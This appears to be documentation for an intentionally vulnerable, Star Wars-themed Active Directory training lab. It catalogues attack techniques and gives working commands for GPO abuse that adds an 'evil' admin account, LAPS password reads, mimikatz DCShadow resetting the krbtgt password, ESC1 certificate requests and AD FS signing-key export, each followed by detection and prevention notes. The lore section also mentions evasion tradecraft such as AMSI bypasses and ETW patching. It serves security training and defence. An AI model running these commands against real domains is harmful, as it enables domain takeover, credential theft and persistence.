**Prevention:** Enforce non-transitive trusts where appropriate; limit trust relationships.

---

### DF-083 — Group Policy Creator Owners Privilege Grant
**What it is:** Members of the `Group Policy Creator Owners` group can create new GPOs in the domain. If an attacker-controlled account (like `svc_devops`) is in this group, they can create a GPO, link it to an OU, and inject malicious startup scripts or registry settings.
**Tools:** `SharpGPOAbuse`.
**Steps:**
```cmd
# Add a local admin command using the created GPO:
SharpGPOAbuse.exe --AddLocalAdmin --UserAccount svc_devops --GPOName "Default Domain Policy"
```
**Detection:** Event ID `5136` showing creation or linking of GPOs by non-DA accounts.
**Prevention:** Restrict membership in Group Policy Creator Owners; regularly audit GPO links and permissions.

---

### DF-084 — Weak GPO Link/DACL Abuse
**What it is:** A GPO (such as the Default Domain Policy) has weak DACLs allowing modification permissions (`GpoEditDeleteModifySecurity`) to a low-privileged user or group (like `svc_devops`). Attackers write malicious tasks or scripts to the GPO to execute code on all systems in the domain.
**Tools:** `Set-GPPermission`, `SharpGPOAbuse`.
**Steps:**
```cmd
# Inject a task into the weak GPO:
SharpGPOAbuse.exe --AddComputerTask --TaskName "EvilTask" --Command "cmd.exe" --Arguments "/c net user evil P@ss /add" --GPOName "Default Domain Policy"
```
**Detection:** Sysmon Event ID `11` targeting SYSVOL GPO folders; Event ID `5136` for GPO DACL modification.
**Prevention:** Audit and restrict DACLs on all GPOs in SYSVOL and AD.

---

### DF-085 — LAPS ms-Mcs-AdmPwd Attribute Read Access
**What it is:** The Local Administrator Password Solution (LAPS) stores the local admin password in the `ms-Mcs-AdmPwd` attribute of computer objects in AD. If this attribute has insecure read permissions granted to low-privileged users (like `svc_monitoring`), anyone compromising that account can read the local admin passwords of all systems.
**Tools:** ActiveDirectory module, `crackmapexec`.
**Steps:**
```powershell
# Read LAPS password for a target computer:
Get-ADComputer -Identity tatooine -Properties ms-Mcs-AdmPwd | Select -ExpandProperty ms-Mcs-AdmPwd
```
**Detection:** Active Directory LDAP queries requesting the `ms-Mcs-AdmPwd` attribute from non-administrative IP addresses.
**Prevention:** Use LAPS password encryption (Windows LAPS); strictly limit delegate read access to LAPS attributes.

---

### DF-087 — LAPS Password Extraction
**What it is:** Exploiting read rights on the LAPS attributes to extract cleartext passwords.
**Tools:** `crackmapexec`, `Get-LAPSPassword`.
**Steps:**
```bash
crackmapexec ldap 10.10.0.10 -u svc_monitoring -p Monitor2024! -M laps
```
**Detection:** Automated directory enumeration targeting LAPS attributes.
**Prevention:** Rotate LAPS passwords immediately; restrict AD ACLs.

---

### DF-090 — DCShadow Attack
**What it is:** An attacker with Domain Admin rights registers a rogue Domain Controller in the Active Directory Configuration partition. They then force replication to push malicious changes (e.g., modifying group memberships, passwords, or SID History) to legitimate DCs without triggering standard Event ID logs for directory changes.
**Tools:** `mimikatz`.
**Steps:**
```cmd
# 1. Start the first mimikatz instance to register the rogue DC and queue changes:
mimikatz.exe "lsadump::dcshadow /object:krbtgt /attribute:unicodePwd /value:NewKrbtgtPass2024!"

# 2. Start the second mimikatz instance (with SYSTEM rights) to trigger replication:
mimikatz.exe "lsadump::dcshadow /push"
```
**Detection:** Event ID `4934`/`4936` indicating replication from a non-standard DC; creation of temporary `nTDSDSA` server objects in the Configuration partition.
**Prevention:** Restrict membership in Domain Admins/Enterprise Admins; monitor replication metadata and new server objects in the Configuration container.

---

### DF-095..100 — PKI + Entra Hybrid Join Compromise
**What it is:** In hybrid environments, an AD CS certificate compromised in the on-premises AD is used to authenticate to Entra ID (Azure AD) via hybrid-joined device flows or certificate-based authentication. An attacker who obtains an ESC1 certificate for an on-premises user syncs the account (e.g., using `MSOL_sync` account) and logs in to Azure as Global Admin.
**Tools:** `Certipy`, AADInternals.
**Steps:**
```bash
# 1. Get on-premises admin certificate via ESC1:
certipy req -u luke.skywalker@empire.local -p SithLord123! -dc-ip 10.10.0.10 -ca 'corp-CA' -template UserTemplate -upn administrator@empire.local

# 2. Use the cert to authenticate to Entra ID.
```
**Detection:** Entra ID sign-in logs showing sign-ins from unusual locations using client certificates.
**Prevention:** Enforce multi-factor authentication (MFA) and conditional access policies for hybrid joins and certificate-based logins.

---

### DF-100 — Golden SAML Attack
**What it is:** If the AD FS (Active Directory Federation Services) token-signing private key is stolen, an attacker can forge SAML assertions for any user, bypassing authentication controls to log in directly to federated cloud applications (like Microsoft 365 or Azure) as any administrator, bypassing MFA.
**Tools:** `ADFSToolkit`.
**Steps:**
```powershell
Export-ADFSSigningCertificate -OutputPfx signing.pfx
# Forge SAML assertion and authenticate to cloud
```
**Detection:** SAML assertions signed by a key that has been rotated; logons without corresponding on-premises AD FS events.
**Prevention:** Protect AD FS server security; restrict access to the token-signing private key; migrate to Entra ID native authentication if possible.

---

Next: [`08-solve-path.md`](08-solve-path.md) — full canonical solve + wireframe diagrams of every solving pattern.

---

# The EMPIRE AD Lab: Star Wars Lore & Thematic Mapping

Welcome to the **EMPIRE AD Lab**, where the intricacies of Active Directory align with the galactic struggle between the Galactic Empire, the Rebel Alliance, and the shadow syndicates. This section provides a conceptual thematic mapping between the AD concepts you are attacking and the Star Wars universe.

## The Galactic Topology

The lab topology represents the political structure of the galaxy. Just as trust relationships govern AD, diplomatic and military alliances govern the galaxy.

```mermaid
graph TD
    classDef empire fill:#000000,stroke:#ff0000,stroke-width:2px,color:#fff;
    classDef rebel fill:#2b5c8f,stroke:#ff9900,stroke-width:2px,color:#fff;
    classDef trade fill:#4a4a4a,stroke:#aaaaaa,stroke-width:2px,color:#fff;
    classDef highlight fill:#440000,stroke:#ff0000,stroke-width:3px,color:#fff;

    subgraph The Galactic Empire (empire.local)
        Coruscant["Coruscant (Root DC)<br/>coruscant.empire.local"]:::empire
        DeathStar["The Death Star (Child DC)<br/>deathstar.eu.empire.local"]:::highlight
        Scarif["Scarif Citadel (File Server)<br/>scarif.empire.local"]:::empire
        Kamino["Kamino Cloning Facility (SQL)<br/>kamino.empire.local"]:::empire
        Endor["Endor Shield Generator (CA)<br/>endor.empire.local"]:::empire
        Mandalore["Mandalore Mercenary Base (Linux)<br/>mandalore.empire.local"]:::empire
        Coruscant -- "Imperial Command" --> DeathStar
        Coruscant --- Scarif
        Coruscant --- Kamino
        Coruscant --- Endor
        Coruscant --- Mandalore
    end

    subgraph The Rebel Alliance (rebel.local)
        Yavin4["Yavin 4 Base<br/>yavin4.rebel.local"]:::rebel
    end

    subgraph The Trade Federation (trade.corp)
        Neimoidia["Cato Neimoidia<br/>neimoidia.trade.corp"]:::trade
    end

    Coruscant <-->|Espionage / External Trust| Yavin4
    Coruscant <-->|Treaty / Forest Trust| Neimoidia
```

## Infrastructure Mapping

Understanding the infrastructure is key to successfully executing your attack paths. Here is how the technical components of the EMPIRE AD lab map to the Star Wars universe:

### 1. The Core Domains
* **`empire.local` (The Galactic Empire):** The central root domain. This is the seat of the Emperor and the Imperial Senate. Taking over this domain is equivalent to taking over Coruscant. It controls all the core infrastructure.
* **`eu.empire.local` (The Death Star):** A child domain of `empire.local`. While it reports to the root domain, it holds immense power. Escaping the child domain to compromise the root domain is the equivalent of using the Death Star plans to destroy the Empire.
* **`rebel.local` (The Rebel Alliance):** An external forest. It has an external trust with the Empire (perhaps through espionage or captured spies). Moving laterally across this trust requires finding a weak link in the Rebel defenses.
* **`trade.corp` (The Trade Federation):** A separate forest with a bidirectional forest trust. The Empire uses them for resources, but you can forge trust tickets (Inter-Realm TGTs) to cross this boundary.

### 2. High-Value Targets (Servers)
* **`coruscant.empire.local` (Coruscant Root DC):** The ultimate prize. Achieving Domain Admin here gives you the keys to the galaxy.
* **`endor.empire.local` (Endor Shield Generator / ADCS):** Active Directory Certificate Services. If you can compromise the CA (via ESC1, ESC8, etc.), you can forge certificates for any user in the Empire, effectively bringing down the deflector shields.
* **`scarif.empire.local` (Scarif Citadel):** This file server hosts critical SMB shares. It is the repository of the Death Star plans. Look for exposed passwords in scripts or configuration files left by careless Imperial engineers.
* **`kamino.empire.local` (Kamino Facility):** The SQL Server. SQL injection or xp_cmdshell here can lead to a foothold. It represents the cloning facilities—a hidden source of power.
* **`mandalore.empire.local` (Mandalore Base):** The Linux-in-AD member. Contains local privilege escalations and cross-OS pivot opportunities. Represents the mercenary faction employed by the Empire.

### 3. Attack Paths and Tactics
* **Initial Access (The Smuggler's Route):** Finding an exposed SMB share or exploiting an LLMNR poisoning vulnerability (Responder) is like slipping past the Imperial blockade.
* **Kerberoasting (Bounty Hunting):** Requesting TGS tickets for service accounts and cracking them offline is like putting a bounty on a high-value target and cracking their encryption.
* **DCSync (The Force):** Using `secretsdump` to pull the `krbtgt` hash directly from the Domain Controller. It's an invisible, powerful attack that bypasses normal defenses.
* **Golden Ticket (Order 66):** Once you have the `krbtgt` hash, you can forge a TGT for any user, granting you infinite access. It is the ultimate executive order, overriding all security protocols.
* **Trust Abuse (Diplomatic Immunity):** Forging a trust ticket to cross from the Child Domain to the Root Domain.

## The Hacker's Code (Sith vs Jedi)
As you navigate the lab, remember that the tools you use define your path. Will you use noisy, aggressive tools (The Dark Side) that trigger every alarm, or will you use stealthy, precise tradecraft (The Light Side) to move undetected?

* **The Dark Side (Noisy):** Running `BloodHound` with all collection methods, spraying passwords across the entire domain, and dropping standard Mimikatz binaries to disk. It is powerful and fast, but leaves a massive trail.
* **The Light Side (Stealthy):** Targeted LDAP queries, memory-only execution via Covenant or Cobalt Strike, and careful evasion of logging (AMSI bypasses, ETW patching).

## Flag Locations (Holocrons)
Hidden throughout the EMPIRE AD lab are flags (Holocrons) that prove your mastery over the environment. Look for `FLAG-*.txt` files on desktops, hidden SMB shares, and within the SQL databases. 

**Remember:** 
* "Your focus determines your reality." - Qui-Gon Jinn. Focus on the attack paths mapped out in `PLAN.md`.
* "I find your lack of faith disturbing." - Darth Vader. If an exploit fails, check your syntax, your targeting, and the underlying misconfiguration. The lab is intentionally vulnerable.

May the Force be with you as you conquer the EMPIRE AD!
